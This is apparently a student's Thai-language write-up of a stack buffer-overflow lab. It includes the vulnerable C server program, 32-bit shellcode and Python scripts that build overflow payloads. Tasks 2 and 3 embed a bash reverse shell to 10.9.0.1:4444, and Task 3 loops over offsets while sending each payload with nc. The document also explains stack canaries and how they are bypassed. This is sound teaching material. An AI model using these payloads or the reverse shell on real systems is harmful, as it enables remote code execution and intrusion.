

## Lab setup


## Task 1: Get Familiar with the Shellcode (5 คะแนน)




- ก่อนถึง * ต้องมี 58 character
```
modify code เป็น "/bin/rm -f /tmp/test && echo success                      *"
- เมื่อลบสำเร็จจะไป echo sucess
```


```
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm -f /tmp/test && echo success                      *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
  f.write(content)

```

## Task2: Level-1 Attack (10 คะแนน) 

server 10.9.0.5 port 9090 รัน stack.c 

```
/* Vunlerable program: stack.c */
/* You can get this program from the lab's website */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 * Suggested value: between 100 and 400  */
#ifndef BUF_SIZE
#define BUF_SIZE 200
#endif

void printBuffer(char * buffer, int size);
void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

#if __x86_64__
    unsigned long int *framep;
    // Copy the rbp value into framep, and print it out
    asm("movq %%rbp, %0" : "=r" (framep));
#if SHOW_FP
    printf("Frame Pointer (rbp) inside bof():  0x%.16lx\n", (unsigned long) framep);
#endif
    printf("Buffer's address inside bof():     0x%.16lx\n", (unsigned long) &buffer);
#else
    unsigned int *framep;
    // Copy the ebp value into framep, and print it out
    asm("mov %%ebp, %0" : "=r" (framep));
#if SHOW_FP
    printf("Frame Pointer (ebp) inside bof():  0x%.8x\n", (unsigned) framep);
#endif
    printf("Buffer's address inside bof():     0x%.8x\n", (unsigned) &buffer);
#endif

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];

    int length = fread(str, sizeof(char), 517, stdin);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

void printBuffer(char * buffer, int size)
{
   int i;
   for  (i=0; i<size; i++){

     if (i % 20 == 0) printf("\n%.3d: ", i);
     printf("%.2x ", (unsigned char) buffer[i]);
   }
}

```

### program stack.c

- คอยรับ user input จาก connection port 9090 อยู่

- user input จะถูกส่งเข้า bof function as argument

- ภายใน bof() มีการใช้ strcpy(buffer,user_input) 

- ไม่มีการ verify&sanitize user input ทำให้เกิด buffer overflow 


### program server.c

- จะเรียก stack.c เมื่อมี connection ต่อมา โดย fork() + exec() process ใหม่ ทำให้เราทดลอง payload ได้เรื่อยๆ 


---

---


```
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i >& /dev/tcp/10.9.0.1/4444 0<&1 2>&1          *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd248 + 100   # Change this number 
offset = 116              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```


## Task 3: Level-2 Attack  (20 คะแนน) 


```
#!/usr/bin/python3
import sys
import os

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i >& /dev/tcp/10.9.0.1/4444 0<&1 2>&1          *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

Buffer_address = 0xffffd188
ret = Buffer_address + 300
for x in range(100, 300,4):
    offset = x  
    print("Using return address: ", hex(ret), " with offset: ", offset)
    
    content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 

    with open('badfile', 'wb') as f:
        f.write(content)
    
    os.system('cat ./badfile | nc 10.9.0.6 9090')


```


## Task 4: Experimenting with the Address Randomization (5 คะแนน) 


```
sudo /sbin/sysctl-w kernel.randomize_va_space=2  
```


## Tasks 5: Experimenting with Other Countermeasures ( 10 คะแนน) 


https://www.redhat.com/en/blog/security-technologies-stack-smashing-protection-stackguard

### หลักการทำงานพื้นฐาน

1. **แทรก canary value** ระหว่าง stack variables และ return address
2. **ตรวจสอบ canary** ก่อน function return
3. **Terminate program** หาก canary ถูกเปลี่ยนแปลง
4. **ลดผลกระทบ** จาก code execution เหลือเพียง denial of service


### ประเภทของ Canary ทั้ง 3 แบบ

**1. Terminator Canaries:**
- ประกอบด้วยอักขระ: NULL(0x00), CR(0x0d), LF(0x0a), EOF(0xff)
- หลักการ: string functions จะหยุดทำงานเมื่อเจออักขระเหล่านี้
- ข้อเสีย: ผู้โจมตีรู้ค่า canary ล่วงหน้า
- การ bypass: ใช้ non-string functions และเขียนทับ canary ด้วยค่าที่ถูกต้อง

**2. Random Canaries:**
- สุ่มค่าตอน program startup จาก `/dev/urandom`
- หากไม่มี `/dev/urandom` จะใช้ hash ของเวลา
- ข้อดี: ไม่สามารถทำนายค่าได้ล่วงหน้า
- การ bypass: ต้องมี information leak เพื่ออ่านค่า canary

**3. Random XOR Canaries:**
- XOR random value กับ control data (frame pointer + return address)
- เมื่อ canary หรือ control data ถูกเปลี่ยน ค่าจะผิดทันที
- ป้องกันได้ดีที่สุด

### การทำงานจริงใน Assembly Level

**โค้ดต้นฉบับ:**
```c
void function1(const char* str) {
    char buffer[16];
    strcpy(buffer, str);
}
```

**หลัง StackGuard Transform:**
```c
extern uintptr_t __stack_chk_guard;
noreturn void __stack_chk_fail(void);

void function1(const char* str) {
    uintptr_t canary = __stack_chk_guard;  // โหลด canary
    char buffer[16];
    strcpy(buffer, str);
    if ((canary = canary ^ __stack_chk_guard) != 0)  // ตรวจสอบ
        __stack_chk_fail();  // terminate หากผิดพลาด
}
```


